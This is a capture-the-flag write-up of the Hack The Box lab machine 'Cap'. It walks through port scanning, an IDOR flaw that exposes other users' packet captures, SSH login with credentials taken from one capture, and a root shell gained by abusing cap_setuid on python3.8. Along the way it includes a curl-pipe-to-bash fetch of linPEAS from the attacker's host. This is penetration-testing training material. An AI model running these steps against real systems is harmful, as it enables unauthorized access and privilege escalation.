







# Cap Write-Up


Cap is a machine to learn how the Insecure Direct Object Reference (IDOR) vulnerability works and and with the [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) script you can abuse a Linux capability to escalate to root.

<!-- truncate -->

## Enumeration

### nmap

nmap finds three open TCP ports, FTP (21), SSH (22), HTTP (80):

```
$ nmap -p- --open --min-rate=5000 -Pn -T4 -oN nmap/open_ports 10.129.142.220
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-27 10:39 CET
Nmap scan report for 10.129.142.220 (10.129.142.220)
Host is up (0.036s latency).
Not shown: 62636 closed tcp ports (reset), 2896 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.83 seconds
```

```
$ nmap -p 21,22,80 -sV -sC -oN nmap/services_version 10.129.142.220
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-27 10:43 CET
Nmap scan report for 10.129.142.220 (10.129.142.220)
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.87 seconds
```

### Website by IP - TCP 80

The website is running [Gunicorn](https://gunicorn.org/), which is a python based HTTP server. Browsing to
the page shows a dashboard.



The section `IP Config` shows the output of the `ifconfig` command.



The section `Network Status` is showing the output of the `netstat` command. This can be a hint that the application is executing system commands.



If you go back to the `Dashboard` section, the packages retrieved from the current user session are displayed.



Clicking on `Download` gives you a packet capture file, which can be examined using Wireshark. The data of the current user session doesn't have anything interesting.

### IDOR

If you look the URL scheme when creating a new capture, the number of the `/data/0` path is incremented for every capture. Modifying the number to see if there are more captures stored from previous user sessions.

Browsing to `/data/0` shows the total packages from previous user sessions.



## Foothold

Opening the capture file with Wireshark reveals the user and the password.



The credentials can be used to login via SSH:

```
$ ssh nathan@10.129.142.220
nathan@10.129.142.220's password:
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

## Privilege Scalation

Using the [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) script can show possible attack vectors in the target machine. I download from my machine the script:

```
$ sudo wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

I create a python server to host the linPEAS script:

```
$ sudo python3 -m http.server 80
```

From the target machine I run the script from my python server using the `curl` command to fetch the script data and then pipe it through `bash` to run it without downloading:

```
$ curl http://10.10.14.40/linpeas.sh | bash
```

The output of the script shows an interesting attack vector from `/usr/bin/python3.8` that is
found to have `cap_setuid` and `cap_net_bind_service`, which isn't the default setting.



Let's see where is python installed on the system:

```
nathan@cap:~$ which python3
/usr/bin/python3
nathan@cap:~$ ls /usr/bin/ | grep "python3"
python3
python3-config
python3.8
python3.8-config
```

The following commands will give you the root shell to get the flag:

```
nathan@cap:~$ /usr/bin/python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~# cat /root/root.txt
de7923e9************************
```

And the machine is pwned! ;)

## References

- ch4p. (2021, Jun 05). <span class="reference-title">Cap</span>. *HTB Labs*. [https://app.hackthebox.com/machines/cap](https://app.hackthebox.com/machines/cap)
